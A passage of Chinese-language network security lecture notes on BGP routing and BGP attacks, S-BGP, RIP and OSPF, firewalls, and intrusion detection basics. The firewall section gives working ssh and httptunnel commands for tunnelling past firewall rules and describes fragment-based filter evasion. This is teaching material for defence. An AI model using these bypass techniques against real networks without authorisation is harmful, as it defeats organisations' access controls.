  - BGP发言人通过TCP进行通信并成为对等体或邻居。 BGP使用TCP端口179来建立连接。
  - 提供商通常尝试在多个位置进行对等连接。 无论是通过多次与同一自治系统进行对等连接，还是因为某些自治系统具有多宿主性，一个典型的网络都会有众多候选路径到达给定的前缀。
  - BGP对等体通常直接在IP层连接； 也就是说，它们之间没有中间节点。 这对操作并不是必需的，因为对等体可以形成多跳会话，其中不运行BGP的中间路由器将协议消息传递给对等体（这是一种较少见的配置）。

❖ BGP对等体和边界路由器。
➢ 同一自治系统内的BGP对等体称为内部对等体；它们通过内部BGP（IBGP）进行通信。
➢ 来自不同自治系统的BGP对等体称为外部对等体；它们通过外部BGP（EBGP）进行通信。
➢ 使用EBGP进行通信的路由器，它们连接到不同的自治系统的路由器，称为边界路由器。

- BGP聚合
  ➢ 路由可以被聚合
  ➢ 例如，一个自治系统（或一组自治系统）边界上的BGP发言者必须能够为一整组目标IP地址生成聚合路由，它对这些地址具有管理控制权（包括已委派的地址），即使它们不是同时可达的。

- 2005年11月30日AS4637（Reach）的BGP表中的BGP统计信息
  - AS4637是一个大型自治系统。
  - 20946：路由系统中的AS数量
  - 173244：网络前缀数量
    - 8700：只宣布一个前缀的AS数量
    - 1458：AS7018（AT&T WorldNet Services）宣布的最大前缀数量
    - 91316736：AS721（DoD Network Information Center）宣布的最大地址范围

#### ❖ BGP路由

- 每个AS都会生成一个或多个前缀，代表其网络中分配给主机和设备的地址。

- CIDR表示法：前缀 /（#最高有效位数）。例如，192.68.0.0/16。

- BGP对等体通过UPDATE消息不断交换已知前缀和互联网中所有目的地的路径集。

- 每个AS向其对等体广告其正在生成的前缀。

- 所有AS根据其邻居的可达性信息更新其路由表，并将接收到的信息转发给其其他邻居。

#### ❖ AS路径

- AS建立了每个广告前缀的AS路径

- 这些路径是AS的向量，数据包必须经过这些路径才能到达起始的AS。

- 路径向量存储在路由表中，并通过BGP与邻居共享。

- 当BGP路由从一个AS到另一个AS传输时，每个AS的AS号码都会在其上标记，当它离开该AS时。

- 一个例子：

#### BGP更新消息字段

BGP数据包中，头部的类型字段标识数据包为BGP更新消息数据包，包括以下字段。收到更新消息数据包后，路由器可以添加或删除其路由表中的特定条目，以确保准确性。更新消息由以下数据包组成：

- 撤销路由---包含正在从服务中撤销的IP地址前缀列表。

- 路径属性---描述所广告路径的特性。以下是路径的可能属性：

- 起源：强制属性，定义路径信息的起源。

- AS路径：强制属性，由一系列自治系统路径段组成。

- 下一跳：强制属性，定义应该用作下一跳的边界路由器的IP地址，该下一跳用于网络层可达性信息字段中列出的目的地。

- 多出口区分器：可选属性，用于区分到邻居自治系统的多个出口点

- 本地优先级：自由裁量属性，用于指定对于一个被广告路由的偏好程度

- 原子聚合：自由裁量属性，用于披露有关路由选择的信息

- 聚合器：可选属性，包含有关聚合路由的信息

- 网络层可达性信息---包含被广告路由的IP地址前缀列表

一个示例：简化的BGP UPDATE消息：

#### 路由策略

- BGP通过一些协议特性来强制执行路由策略，例如只为付费客户转发数据的能力。
- 路由策略与政治、安全或经济考虑有关。
  - 一个多宿AS可以拒绝作为其他AS的中转AS。（它通过仅广告到AS内部目的地的路由来实现。）
  - 一个多宿主AS可以成为一组相邻AS的中转AS，即一些但不是全部AS可以使用多宿主AS作为中转AS。（通过向这组AS广告其路由信息来实现。）
  - AS可以偏好或不偏好使用某些AS来承载中转流量。
- BGP使用UPDATE消息中的属性值来帮助执行策略。
- 在BGP路由器中配置的策略允许其执行以下操作：
  - 过滤从每个对等体接收的路由
  - 过滤广告给对等体的路由
  - 根据所需的标准选择路由
  - 基于这些路由转发流量
- 设置策略通常涉及偏向BGP的路由选择算法的技术。

#### 多路径

- BGP可能从多个来源接收到同一路由的多个广告。
- BGP只选择一条路径作为最佳路径。
- 当选择路径后，BGP将选定的路径放入IP路由表并将路径传播给其邻居。

## BGP路径选择。

- BGP演讲者的主要任务之一是评估从自身到一组由地址前缀覆盖的目的地的不同路径，选择最佳路径，应用适当的策略约束，然后将其广播给所有的BGP邻居。
- 度量
  - 每个自治系统可以使用自己的路由协议
  - 度量值不同（跳数、延迟等）
  - BGP不通信或解释距离度量值。
  - 唯一的解释是：“我的自治系统提供到这个网络的路径”。
- 当存在多个可行路径到目的地时，应该维护所有可行路径。
  - 每个可行路径被分配一个优先级值。
  - 根据多个信息源分配路径的优先级可以基于以下几个信息来源：
    - 完整的自治系统路径中明确存在的信息。
    - 从完整的自治系统路径中推导出的信息与BGP范围之外的信息的组合（例如，作为配置信息提供的策略路由约束）。
- 分配路径偏好度的可能标准是
  - 优先选择具有最大权重（权重由Cisco定义，并且是本地路由器的）的路径。
  - 本地偏好：优先选择本地自治系统的出口点。本地偏好属性会在整个本地自治系统中传播。
  - 最短AS路径（AS计数）。
  - 最低起源类型：完全通过BGP学习的路径（即路径的终点在路径上的最后一个自治系统内部）通常比通过EGP或其他方式学习部分路径的路径更好。
  - 策略考虑
  - 路径中某个自治系统或自治系统的存在或不存在
  - 链路动态：应优先选择稳定的路径。

#### 自治系统路径向量的长度

- 这是BGP用于路径选择的最重要标准之一
- 组织可以通过反复将其自治系统号添加到路径中来修改该长度，以阻止其使用（这种技术称为填充或预添加）。

#### 第三方限制

- EGP限制（非核心）路由器仅广告那些完全可从其自治系统内到达的网络。

### （3）案例研究：雪城大学

- 宣布的前缀 (http://www.cidr-report.org/cgi-bin/as-report?as=AS11872)
  - 数据收集于2005年11月30日AS4637。

| AS11872: SYRACUSE-UNIVERSITY - 雪城大学 |
| --- |
| 前缀 (AS路径) |
| 128. 230. 0. 0/16 4637 6395 11872 |
| 149. 119. 0. 0/16 4637 6395 11872 |
| 192. 155. 14. 0/24 4637 6395 11872 |
| 192. 155. 16. 0/24 4637 6395 11872 |
| 注意: AS6395是BROADWING - Broadwing Communications Services, Inc。 |

- 地址空间
  - AS11872（雪城大学）
    - 起始地址空间：131584/14.99
    - 中转地址空间：0（即AS11872不提供中转服务）。
  - AS6395（Broadwing，一家Tier-I ISP）
    - 起始地址空间：1365504/11.62
    - 中转地址空间：7683584/9.13（即它提供中转服务）
  - AS4637 (Reach)
    - 起始地址空间：314880/13.74
    - 中转地址空间：1713352013/1.33（中转覆盖范围大于AS6395）

- 部分拓扑（使用 traceroute 和 whois）
  - AS11872（雪城大学）与AS6395（Broadwing）、AS4323（Time Warner）、AS1785（NYSERNet R&E Network）等互联。
  - NYSERNet仅在纽约州提供骨干网络，不承载商业流量。
  - NYSERNet从Broadwing（一家Tier-I ISP，可能还有其他）购买互联网服务。因此，商业流量流向这些骨干网络。
  - NYSERNet连接到Abilene（AS11537）。 Abilene网络是一个Internet2高性能骨干网络，可促进先进互联网应用的开发和领先网络服务的部署，面向Internet2大学和研究实验室全国范围内。 该网络已成为参与Internet2的大学中最先进的本地IP骨干网络。
  - 如果我们对一个Internet2大学进行路由追踪，很可能流量会通过Abilene骨干网(abilene.ucaid.edu)。
  - 如果我们对一个公司（例如，yahoo.com）进行路由追踪，很可能流量会通过Broadwing骨干网。

### (4) 攻击BGP

❖ 配置错误

- 在实践中，配置错误非常常见，它们可能会导致与攻击相同的问题。
- 1997年4月25日： AS7007向互联网发送了不正确的广告，宣布AS7007是连接到整个互联网的最佳路径的起点。
- 1998年4月7日： AS8584宣布了大约10,000个它不拥有的前缀。
- 2001年4月6日： AS15412宣布了大约5,000个它不拥有的前缀。

❖ 攻击假设

- 攻击者已经成功入侵并完全控制了一个或多个BGP发言者。

❖ 攻击者的目标

- 黑洞现象：当一个前缀在互联网的大部分地区无法到达时发生。
  - 有意的黑洞路由用于执行私有和未分配的IP范围。
  - 恶意黑洞指的是虚假的路由广告，旨在吸引流量到特定的路由器，然后将其丢弃。
- 重定向: 当流向特定网络的流量被强制采取不同的路径，并到达一个错误的、可能也被入侵的目的地时发生。
- 颠覆: 是重定向的一种特殊情况，攻击者强制流量通过某个链接，目的是窃听或修改数据。
- 不稳定

❖ 欺诈性源攻击

- 恶意自治系统可以通过BGP UPDATE消息向相邻自治系统的路由器传递不正确的信息。
- 前缀劫持：恶意自治系统可以广告来自另一个自治系统的前缀，并声称自己是原始来源。
- 前缀分解：当一个大前缀的公告被分割或者由一系列较小前缀的公告重复时，就会发生这种情况。
  - BGP执行最长前缀匹配，即选择与前缀关联的最长掩码用于路由目的。

例如，如果前缀12.0.0.0/8和12.0.0.0/16被通告，那么后者前缀，即对地址块的更具体部分，将被选择。
如果一个自治系统错误地声称是一个前缀的起源，并且更新具有比当前全局路由表中其他前缀更长的前缀，它将完全劫持该前缀。错误的更新最终将在整个互联网中传播。

#### 路径信息的篡改
- 恶意自治系统可以篡改UPDATE消息的路径属性。
- 回顾：BGP使用路径向量；根据路径字符串发送数据包通过一系列自治系统进行路由到目的地。
- 一个自治系统可以通过修改从其他自治系统接收到的路径来进行修改
    - 在路径向量中插入或删除自治系统
    - 改变自治系统的顺序
    - 修改UPDATE消息中的属性，例如多出口鉴别器（用于向外部自治系统建议首选路由）或社区属性（用于将具有共同路由策略的路由分组）



#### 上图的设置
- AS1和AS2是从其提供者AS3分配地址块的Stub网络
- 所有自治系统为其客户提供中转服务，这些客户位于图表的较低层级
- 水平线（例如在路由器B-V之间）表示备份链路和相应自治系统之间的非中转关系

### 攻击场景：
- 路由器B想要破坏发送到AS2的流量：
- 它可以宣布一个虚假的路由，宣布它与AS2有直接连接
- 它还可以声称对由AS2发起的地址块拥有所有权。路由器A和R然后将目标为AS2的流量转发到B。
- B可以将AS2宣布的前缀分解为两个更长的前缀（前缀长度增加一位），同时保持到AS2的AS-PATH不变。在这种情况下，除了AS2以外的互联网上的任何地方发起的流量，目的地为AS2的流量将被转发到路由器B。
- 如果AS2拥有由提供者聚合的前缀与其他前缀，那么B可以简单地宣布原始的AS2前缀。
- 请注意，被入侵的BGP发言者可以使用分解来黑洞化互联网上的任何地方的受害者网络，而不管两者之间的接近程度。

### 重定向流量：
- 通常，B应该宣布通过{AS1， AS3， AS4}的AS1路由。
- 相反，B可以将该路由仅传播到A，指示不应进一步通告，并宣布通过AS5到R的虚假路由。

#### 更新修改
- 假设AS3仅将链接V-N用于备份目的，因为使用链接B-M更便宜。为了实现这一点，路由器N可以伪造发送到V的UPDATE消息，使相应的AS-PATH变长。
- 假设R被入侵，并且它想通过更昂贵的链接V-N重定向流量到AS3。
- R可以在包含{AS5， AS3}链接的路由中删除伪造信息，并在包含{AS4， AS3}链接的路由中伪造（或者简单地不宣布它）。这将迫使流向AS3的流量采取更昂贵的V-N路线。

#### 路由抖动和路由阻尼
- 如果路由器经常离线，它通告的路由将在对等路由表中消失和重新出现。这被称为路由抖动。
- 为了降低负担，不稳定的路由通常通过一种称为路由阻尼的过程受到惩罚。
- 邻近的路由器将忽略来自该路由器的通告，这取决于路由抖动发生的频率。

#### 使用路由抖动进行攻击
- 可以用来触发上游路由器对受害网络进行路由阻尼。
- 这可以通过撤回和重新通告目标路由，以足够高的速率进行，使邻近的BGP发言者对这些路由进行阻尼。
- 阻尼路由将强制流量采取不同的路径到达受害自治系统，实现流量重定向。
- 当单个路由抖动迫使BGP对等体考虑多个备份路径时，可能会触发阻尼，导致大量的额外撤回和通告。

#### 拥塞引起的BGP会话失败
- 当BGP对等体遭受严重拥塞时，基于TCP的BGP会话可能会变得非常缓慢，最终被中止，导致数千个路由被撤回。
- 当BGP会话重新建立时，路由器必须交换完整的路由表，从而产生大量的BGP流量和显著的路由收敛延迟。
- 例如，研究表明，在2001年Code Red和Nimda蠕虫的不良影响期间，BGP流量增加了25倍（后来，另一项研究表明超过40%的观察到的BGP更新是由于其他原因引起的）。

#### 其他拒绝服务攻击
- TCP RST攻击
- SYN洪水攻击
- ICMP攻击

### (5) 保护BGP
- **S-BGP: 安全BGP**
    - 由BBN的研究人员设计，目的是保护BGP免受错误或恶意的UPDATE消息。
    - S-BGP对BGP进行了三个重要的增加
        - 它在域间路由基础设施中引入了公钥基础设施（PKI），以授权前缀所有权并验证路由
        - 向BGP更新引入了一个新的传递属性。该属性确保了路由UPDATE消息的授权，并防止中间S-BGP发言者对路由进行修改
        - 如果路由机密性是一个要求，所有的路由消息都可以使用IPSec进行保护。
    - 地址证明（AAs）
        - 由一个或多个前缀的所有者发行，用于识别第一个被授权通告前缀的自治系统（AS）。
    - 路由证明（RAs）
        - 由一个路由器代表一个自治系统（ISP）发行，用于授权邻居自治系统在包含RA的UPDATE中使用该路由。
- **协议操作:**
    - 在生成UPDATE时，路由器生成一个新的RA，包括路径和前缀以及邻居自治系统的AS号码。
    - 当从邻居接收到UPDATE时，它
        - 验证其AS号码是否在第一个RA中
        - 验证UPDATE中每个RA上的签名，验证签名者是否代表路径中的AS号码
        - 检查相应的AA以验证源AS是否被授权通过前缀“所有者”通告前缀
- **S-BGP的局限性**
    - 需要一个由所有参与的ISP信任的分层PKI基础设施和分发系统。
    - S-BGP在密码学方面非常密集。
    - 路由器可能需要一个大的内存空间（每个对等体约20MB）来存储公钥。对于具有数十个对等体的发言者来说，空间要求可能很大。
    - 聚合是S-BGP的另一个问题。
    - S-BGP无法防止“勾结攻击”（或蠕虫洞攻击）。当两个受损的路由器伪造它们之间直接连接的存在时，此类攻击是可能的。对于互联网的其余部分来说，然后看起来好像这两个自治系统是连接的。

### （6）自治系统内部（RIP，OSPF）
- ⬥ BGP和IGP（内部网关协议）之间的关系



- ⬥ IGP协议
    - IGP没有单一的标准。
    - IGP的例子：RIP，HELLO，OSPF
- ⬥ 距离向量路由
    - 表中的每个条目标识一个目标网络，并给出到该网络的距离，通常以跳数来衡量
    - 最初，路由器将其路由表初始化为包含每个直接连接的网络的条目
    - 定期地，每个路由器将其路由表的副本发送给任何它可以直接到达的其他路由器
    - 当一份报告从路由器J到达路由器K时，K根据以下条件替换其表中的条目
        - 如果J知道到达目标的更短路径
        - 如果J列出了K没有的目标
        - 如果K当前通过J路由到目标，并且J到该目标的距离发生变化
- ⬥ 距离向量路由示例
    - (a) 是路由器K的现有路由表
    - (b) 是来自路由器J的传入路由更新消息。标记的条目将用于更新现有条目或将新条目添加到K的路由表中



- **RIP: 路由信息协议**
    - 由UNIX程序实现 routed
    - RIP在UDP端口520上运行
    - 距离向量协议
    - 使用跳数度量 (16为无穷大)
    - 依赖广播
    - 当前标准是RIP2
- **RIP的两种模式**
    - 主动模式:
        - 每30秒广播一次消息。
        - 消息包含来自路由器当前路由数据库的信息。
        - 每个消息由一对组成，每对包含 (IP， 跳数)
        - 只有路由器可以在主动模式下运行RIP。
    - 被动模式
        - 监听并更新其路由表。
        - 主机和路由器都可以以被动模式运行。
- **链路状态路由 (最短路径优先，或SPF)**
    - 参与路由器学习互联网拓扑
    - 将路由器视为图中的节点，将连接它们的网络视为边缘或链接
    - 直接连接的路由器成对地定期
        - 测试它们之间的链接
        - 传播 (广播) 链接的状态
    - 所有路由器
        - 接收链路状态消息
        - 使用众所周知的 Dijkstra最短路径算法从本地信息的副本重新计算路由。请注意， Dijkstra算法计算从单个源到所有目的地的最短路径。
- **OSPF: 开放SPF**
    - 包括类型服务路由。 可以安装给定目的地的多条路由，每条路由对应一种服务类型 。
    - 提供负载均衡。
    - 将网络划分为称为区域的子集。
    - 需要消息认证。
    - 支持特定网络、子网、主机和CIDR路由。

#### OSPF身份验证
- 简单身份验证
    - 每个路由器上配置一个密码（密钥），并在该路由器发起的每个OSPF数据包中以明文形式包含该密码。
    - 这不安全。
- MD5身份验证
    - 它基于在区域中的所有路由器中配置的共享密钥。
    - 每个路由器根据数据包的内容和配置的秘钥计算一个MD5哈希值，然后将结果哈希值包含在OSPF数据包中。
    - 接收路由器使用预先配置的秘钥计算数据包的MD5哈希值，并将其与数据包携带的哈希值进行比较，从而验证其真实性。
    - 序列号也被用于MD5认证以防止重放攻击。

### (7) 参考文献
1. Comer的TCP/IP幻灯片
2. Bellovin的幻灯片（2003） http://www.cs.columbia.edu/~smb/talks/routesec.pdf
3. Mao. http://www.eecs.umich.edu/~zmao/eecs589/notes/lec3_6.pdf
4. Ola Nordstrom和Constantions Dovrolis，小心BGP攻击。
5. K. Butler，T. Farley，P. McDaniel和J. Rexford。 BGP安全概述

## 防火墙

### (1) 防火墙基础知识
- 防火墙
    - 一个只允许通过期望交互的过滤器。
    - 这个模型就像一个防御性的中世纪城堡：这些城堡有坚固的墙壁，墙上有狭缝供弓箭手射箭。这些狭缝非常狭窄，几乎不可能从外面射箭穿过。
- 什么是防火墙
    - 一个过程，过滤受保护或“内部”网络与不太可信任或“外部”网络之间的所有流量。
    - 防火墙实施了一个安全策略，区分“好”的流量和“坏”的流量。保护网络使用防火墙的一部分挑战是确定满足安装需求的安全策略。
- 防火墙的设计
    - 通过在网络中仔细放置防火墙，我们可以确保所有我们想要控制的网络访问必须通过它。
    - 防火墙通常被很好地隔离，使其高度免疫于修改。通常，防火墙是在一台独立的计算机上实现的，直接连接通常只有外部和内部网络。
- 防火墙的类型
    - 筛选路由器（也称为数据包过滤器）
        - 查看数据包的头部
        - 最简单且在某些情况下最有效的防火墙类型
    - 代理网关（也称为堡垒主机）
        - 查看数据包内部的数据
        - 模拟应用程序的（正确）效果，以便应用程序只接收到正确的请求
        - 一个例子：
            - 一家公司想要建立一个在线价格列表，以便外部人员可以查看产品和价格。它希望确保没有外部人员可以更改价格或产品列表，并且外部人员只能访问价格列表，而不能访问存储在内部的任何敏感文件。
- 防火墙可以阻止和不能阻止的内容
    - 只有在防火墙控制整个边界时才能保护环境
    - 无法保护边界外的数据
    - 对外部来说是安装的最显眼部分，也是最容易受到攻击的目标
    - 必须正确配置
    - 无法防护内部攻击

#### ✧ 个人防火墙
- 保护个人设备。
- 软件
    - tcpwrapper
    - iptables

#### ✧ TCP包装器
- inetd守护进程：监听传入的网络连接-->调用服务器程序。
- inetd是 “Internet超级服务器”。
- telnet stream tcp nowait root /usr/bin/in.telnetd in.telnet
- telnet stream tcp nowait root /usr/bin/tcpd in.telnet
- 美丽：普遍性
- TCP包装器配置文件：/etc/hosts.allow (和/etc/hosts.deny)

```
in.telnetd: 10.0.2.15
in.ftpd:    10.0.2.15
```

#### Inetd.conf

| 服务 | 传输 | 等待 | 用户 | 程序 |
| :--- | :--- | :--- | :--- | :--- |
| ftp | stream | tcp | nowait | root | /usr/sbin/tcpd in.ftpd |
| telnet | stream | tcp | nowait | root | /usr/sbin/tcpd in.telnetd |
| shell | stream | tcp | nowait | root | /usr/sbin/tcpd in.rshd |
| login | stream | tcp | nowait | root | /usr/sbin/tcpd in.rlogind |
| finger | stream | tcp | nowait | nobody | /usr/sbin/tcpd in.fingerd |

#### ✧ iptables
- 支持有状态和无状态的数据包过滤
- 您需要一个内核中有netfilter基础设施的内核：netfilter是Linux内核中的一个通用框架，其他模块（如iptables模块）可以插入其中。这意味着您需要2.3.15或更高版本的内核，并在内核配置中回答 “Y” 以启用CONFIG_NETFILTER。
- iptables工具将规则插入和删除到内核的数据包过滤表中。
- 数据包如何穿越过滤器



- 当数据包到达图中的圆圈时，将检查该链以决定数据包的命运。如果链条要求丢弃数据包，则在此处丢弃，但如果链条要求接受数据包，则继续穿越图。

#### 防火墙规则示例

```
# iptables -A INPUT -p tcp --sport 80 -d 10.1.1.2 --dport 1024:65536 -j ACCEPT
```

### (2) 绕过防火墙
- ❖ 动机：
    - ➢ 如果系统管理员故意过滤除了端口22（ssh）之外的所有流量，只针对一个服务器，那么很可能仍然可以访问防火墙后面的其他计算机。
- ❖ ssh -L [localhost:]port:host:hostport
    - 将本地（客户端）主机上的给定端口转发到远程侧的给定主机和端口。这将在本地侧分配一个监听端口。每当有连接到这个监听器的连接时，连接将通过安全通道转发，并与远程机器上的host:hostport建立连接（后者连接不安全，是普通的TCP连接）。端口转发也可以在配置文件中指定。
- ❖ 使用ssh在防火墙上进行通信：SSH隧道

```
#### 设置隧道 (gate是ssh服务器)
% ssh -l wedu -L 7777:work:22 gate.ecs.syr.edu

#### 使用隧道登录work.ecs.syr.edu
% ssh -p 7777 localhost

#### 用于telnet
% ssh -l wedu -L 7777:apollo:23 gate.ecs.syr.edu
% telnet localhost 7777
```



#### GNU httptunnel
GNU httptunnel在HTTP请求中创建一个双向虚拟数据连接隧道。
- 示例1：我想telnet到远程主机，但是我的公司防火墙阻止了所有外部telnet流量。
- 在服务器上必须运行 hts。如果我想要将端口80（http）重定向到所有流量到端口23（telnet），那么它会变成这样：

```
hts -F server.test.com:23 80
```

- 在客户端上运行 htc。如果你通过代理进行连接，需要使用-P选项，否则省略它。

```
htc -P proxy.corp.com:80 -F 23 server.test.com:80
```

- 然后 telnet localhost 它将把流量重定向到代理服务器上的端口80，然后转发到服务器的端口80，最后到端口23。
- 示例2：我想要 ssh到myown.ecs.syr.edu，但是ECS防火墙禁止了这样做。
- 在 myown.ecs: 将80端口转发到22端口
- 在home.rr.com: 将22端口转发到myown.ecs.syr.edu:80
- 运行 ssh localhost -p 22

#### 防火墙上的IP分段攻击
- 当过滤规则基于TCP头部，但TCP头部被分段时，规则将会失败。
- TCP头部位于IP数据包的数据区的开头。
- 防火墙经常检查TCP头部：例如，用于连接请求的SYN数据包。
- 微小分段攻击
- 试图丢弃连接请求的过滤器（具有 SYN=1和ACK=0的TCP数据报）将无法在第一个八位字节中测试这些标志，并且通常会在后续分段中忽略它们。









- 对抗微小分段攻击的保护措施：要求零偏移分段的最小长度。

#### 重叠分段攻击
- 假设：防火墙只检查偏移量为0的数据包。
- 分段1：第一个分段包含的值，例如 SYN=0，ACK=1，使其能够通过过滤器而不受损。

## IP HEADER


## TCP HEADER

| Source Port | Destination Port |
| :--- | :--- |
| Sequence Number |  |
| Acknowledgment Number |  |
| Data Offset | Reserved | URG ACK PSH RST SYN FIN | Window |
| ... | Other data |

片段2：第二个片段，具有八个八位字节的片段偏移，包含与第一个片段不同的TCP标志，例如 SYN=1，ACK=0。由于这个第二个片段不是0偏移片段，它不会被检查，因此它也会通过过滤器。

## IP HEADER


## TCP HEADER

| Acknowledgment Number |  |
| :--- | :--- |
| Data Offset | Reserved | URG ACK PSH RST SYN FIN | Window |
| ... | Other data |

## 防火墙

-   防火墙协议扫描：确定防火墙允许攻击主机上的哪些端口/协议通过。
-   方法：发送具有小TTL的IP数据包；如果收到TTL超过错误，则该端口可以通过。
-   工具：
    -   traceroute
    -   firewalk: http://www.packetfactory.net/projects/firewalk/

## 参考

1.  [IP片段过滤的安全考虑](http://www.scit.wlv.ac.uk/rfc/rfc18xx/RFC1858.html)
2.  [火行走。](http://www.packetfactory.net/projects/firewalk/firewalk-final.pdf)

## 入侵检测系统

### (1) 入侵检测基础知识

#### 什么是入侵检测

监视计算机系统或网络中发生的事件并分析这些事件是否存在入侵的过程。

#### 入侵检测系统的类型

信息来源：用于确定是否发生入侵的不同事件信息来源。

-   基于网络的入侵检测系统
-   基于主机的入侵检测系统
-   基于应用程序的入侵检测系统

分析：最常见的分析方法有

-   滥用检测
-   异常检测

响应：系统在检测到入侵后采取的一系列行动。

